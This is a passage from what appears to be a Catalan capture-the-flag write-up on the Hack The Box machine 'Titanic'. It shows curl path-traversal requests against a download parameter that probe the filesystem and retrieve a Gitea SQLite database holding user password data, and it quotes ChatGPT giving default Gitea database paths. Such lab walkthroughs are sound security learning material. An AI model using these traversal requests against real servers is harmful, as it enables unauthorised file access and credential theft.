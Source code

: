 En canvi si la ruta o fitxer existeixen surt un altre error, un 500 del servidor:

```
┌──(kali㉿kali)-[~]
└─$ curl --path-as-is http://titanic.htb/download?ticket=../../../home/developer   
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

Per tant li pregunto al ChatGPT per la ruta de la base de dades per defecte de Gitea i em respon:

Gitea pot utilitzar diferents motors de base de dades: SQLite, MySQL/MariaDB o PostgreSQL. La ruta específica de la BD dependrà de la configuració.

```
1. Si utilitza SQLite (per defecte en instal·lacions simples)
La base de dades sol estar en un fitxer anomenat gitea.db, ubicat a:

/var/lib/gitea/data/gitea.db
o

/home/git/gitea/data/gitea.db
Això depèn d'on hagis instal·lat Gitea i sota quin usuari s'estigui executant.
```
``
Amb la informació donada per el ChatGPT i el que hem vist sobre la resposta del servidor per comprovar si una ruta o fitxer existeix i molt temps, hores, he aconseguit trobar contrasenyes d'usuaris a la taula user de la BD, que, no m'ha deixat mostrar amb curl i l'he hagut d'obtenir i descarregar des del navegador:

```
┌──(kali㉿kali)-[~]
└─$ curl --path-as-is http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db

Warning: Binary output can mess up your terminal. Use "--output -" to tell curl to output it to your terminal anyway, or 
Warning: consider "--output <FILE>" to save to a file.
```

![[Pasted image 20250301193721.png]]

Podem veure totes les taules de la BD, on n'hi ha una que es diu user i podem veure la seva estructura des de la pròpia Kali Linux nostre:

![[Pasted image 20250301193942.png]]

I el contingut de la taula user clicant a Browse Table:

![[Pasted image 20250301194026.png]]
